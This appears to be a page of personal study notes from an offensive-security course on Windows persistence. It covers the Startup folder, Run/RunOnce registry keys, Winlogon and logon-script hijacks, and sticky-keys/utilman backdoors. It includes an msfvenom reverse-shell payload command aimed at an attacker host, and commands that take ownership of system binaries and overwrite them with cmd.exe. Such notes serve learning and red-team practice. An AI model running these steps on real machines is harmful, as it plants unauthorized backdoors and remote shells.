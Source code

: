 ```
				- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
			- Chuck a payload in there and it will run on startup or when the user logs in
			- `msfvenom -p windows/x64/shell_reverse_tcp LHOST='attack-box-ip' LPORT='attack-box-port' -f exe -o revshell.exe`
		- Run/RunOnce
			- Force a user to execute a program on logon via the registry
				- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
				- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
				- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
				- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
			- `HKCU` apply to the current user only
			- `HKLM` will apply to all users
			- `Run` keys will run every time a user logs on 
			- `RunOnce` as the name suggests will be executed only once
			- Create a `REG_EXPAND_SZ` in whichever key above and point it to wherever the payload sits
		- Winlogon
			- Another logon alternative
			- This is the component that loads your user profile right after authentication (Winlogon!)
			- `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`
			- `Userinit` points to `userinit.exe`
			- `shell` points to the system's shell, normally `explorer.exe`
			- We don't want to break these by just slapping a revshell into one of them
			- However, we can append a payload onto them, comma to seperate `,`
		- Logon Scripts
			- `userinit.exe` does NOT check for an env var called `UserInitMprLogonScript` 
			- We can use this envvar to assign a logon script to a user that will run when logging into the machine
			- It isn't set by default
			- `HKCU\Environment` 
				- `UserInitMprLogonScript`
		- Backdooring the Login Screen / RDP
			- Whether with physical access or remote, backdoors might be able to be created
			- Sticky Keys
				- Sticky keys allow for the buttons of a combination (like ctrl alt delete) to be pressed sequentially instead of the same time
				- One method to enable sticky keys is to press the `shift` button five times - essentially utilising a shortcut on the system
					- `C:\Windows\System32\sethc.exe`
					- This this binary can be replaced with a payload of an attackers preference, then the attacking team have a chance of establishing a persistent backdoor
				- Identifying the owner of a file
					- `Get-Acl 'filename'`
					- the sethc.exe file is owned by TrustedInstaller
				- Taking ownership of the file
					- `takeown /f c:\Windows\System32\sethc.exe`
				- Assigning write privileges to the file
					- `icacls sethc.exe /grant Administrator:F
						- In this case full access
				- Overwrite the sethc.exe file with cmd.exe so that the ability to get a terminal up when the system is in the lock screen
					- `copy c:\Windows\System32\cmd.exe c:\Windows\System32\sethc.exe`
			- Utilman
				- When the Ease of Access button is clicked on the login screen, it utilises the `C:\Windows\System32\utilman.exe` program
				- Same as the Sticky Keys process above
				- `takeown /f utilman.exe`
					- (remember, the assumption that one is logged in already as an admin is taken in this example)
				- `icacls /f utilman.exe Administrator:F`
				- `copy cmd.exe utilman.exe`
```